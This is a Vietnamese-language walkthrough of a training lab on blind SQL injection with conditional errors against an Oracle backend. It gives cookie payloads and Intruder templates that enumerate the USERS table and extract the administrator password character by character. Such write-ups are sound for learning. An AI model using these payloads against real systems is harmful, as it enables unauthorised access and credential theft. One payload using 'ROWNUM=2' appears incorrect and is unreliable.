

# Lab: Blind SQL injection with conditional errors

## Yêu cầu

Đăng nhập với user `administrator`.

Vì các bài đều có yêu cầu tương tự nhau và đề đã cung cấp sẵn bảng `users` với 2 cột `username`, `password`, nên mình tập trung vào phần khai thác.

## Quy trình khai thác

### 1. Xác nhận SQL Injection

```txt
TrackingId=ivuhiXCskr267Aps'    // Hiển thị lỗi
TrackingId=ivuhiXCskr267Aps''   // Không có lỗi
```

Kết luận: tồn tại lỗi SQLi.

### 2. Xác định hệ quản trị CSDL

```txt
TrackingId=ivuhiXCskr267Aps'||(select+'a'+from+dual)||' // Có hiển thị -> Oracle
```

Kết luận: backend dùng Oracle.

### 3. Khai thác Blind SQLi dạng conditional errors

```txt
'||(SELECT+CASE+WHEN+1=1+THEN+'true'+ELSE+TO_CHAR(1/0)+END+FROM+dual)||' // Có hiển thị
'||(SELECT+CASE+WHEN+1=2+THEN+'true'+ELSE+TO_CHAR(1/0)+END+FROM+dual)||' // Lỗi
```

Kết luận: có thể khai thác bằng lỗi có điều kiện.

### 4. Kiểm tra sự tồn tại của bảng `USERS`

```txt
'||(SELECT+CASE+WHEN+((SELECT+COUNT(column_name)+FROM+all_tab_columns+WHERE+table_name='USERS'))>0+THEN+'true'+ELSE+TO_CHAR(1/0)+END+FROM+dual)||'
```

Kết quả có hiển thị -> bảng `USERS` tồn tại.

### 5. Tìm số cột của bảng `USERS` (Intruder)

Payload:

```txt
'||(SELECT+CASE+WHEN+((SELECT+COUNT(column_name)+FROM+all_tab_columns+WHERE+table_name='USERS'))=$0$+THEN+'true'+ELSE+TO_CHAR(1/0)+END+FROM+dual)||'
```

Kết luận: bảng `USERS` có 3 cột.

### 6. Xác định tên các cột

Ví dụ kiểm tra độ dài tên cột:

```txt
'||(SELECT+CASE+WHEN+(LENGTH((SELECT+column_name+FROM+all_tab_columns+WHERE+table_name='USERS'+AND+ROWNUM=1)))=0+THEN+'true'+ELSE+TO_CHAR(1/0)+END+FROM+dual)||'
```

Ví dụ brute-force từng ký tự tên cột:

```txt
'||(SELECT+CASE+WHEN+(SUBSTR(((SELECT+column_name+FROM+all_tab_columns+WHERE+table_name='USERS'+AND+ROWNUM=1)),$1$,1))='$u$'+THEN+'true'+ELSE+TO_CHAR(1/0)+END+FROM+dual)||'
```

Lặp lại với cả 3 cột, ví dụ dạng payload:

```txt
'||(SELECT+CASE+WHEN+(SUBSTR(((SELECT+column_name+FROM+all_tab_columns+WHERE+table_name='USERS'+AND+column_name+NOT+IN+('USERNAME')+AND+ROWNUM=2)),1,1))='u'+THEN+'true'+ELSE+TO_CHAR(1/0)+END+FROM+dual)||'
```

Kết quả: 3 cột là `USERNAME`, `PASSWORD`, `EMAIL`.

### 7. Trích xuất mật khẩu `administrator`

```txt
'||(SELECT+CASE+WHEN+(SUBSTR(((SELECT+PASSWORD+FROM+USERS+WHERE+USERNAME='administrator'+AND+ROWNUM=1)),$1$,1))='$u$'+THEN+'true'+ELSE+TO_CHAR(1/0)+END+FROM+dual)||'
```

Sau khi lấy được mật khẩu, đăng nhập với user `administrator`.


